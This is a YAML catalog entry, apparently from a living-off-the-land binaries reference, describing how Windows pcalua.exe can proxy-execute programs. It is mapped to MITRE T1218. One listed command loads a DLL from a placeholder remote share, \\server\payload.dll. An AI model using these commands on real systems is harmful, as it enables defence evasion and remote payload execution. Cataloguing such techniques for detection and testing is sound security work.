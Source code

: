 ```yaml
---
Name: Pcalua.exe
Description: Program Compatibility Assistant
Author: "Oddvar Moe"
Created: "2018-05-25"
Commands:
  - Command: pcalua.exe -a calc.exe
    Description: Open the target .EXE using the Program Compatibility Assistant.
    Usecase: Proxy execution of binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: pcalua.exe -a \\server\payload.dll
    Description: Open the target .DLL file with the Program Compatibilty Assistant.
    Usecase: Proxy execution of remote dll file
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: pcalua.exe -a C:\Windows\system32\javacpl.cpl -c Java
    Description: Open the target .CPL file with the Program Compatibility Assistant.
    Usecase: Execution of CPL files
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\System32\pcalua.exe
Code_Sample:
  - Code:
Detection:
  - IOC:
Resources:
  - Link: https://twitter.com/KyleHanslovan/status/912659279806640128
Acknowledgement:
  - Person: Kyle Hanslovan
    Handle: "@kylehanslovan"
  - Person: Fab
    Handle: "@0rbz_"
---
```


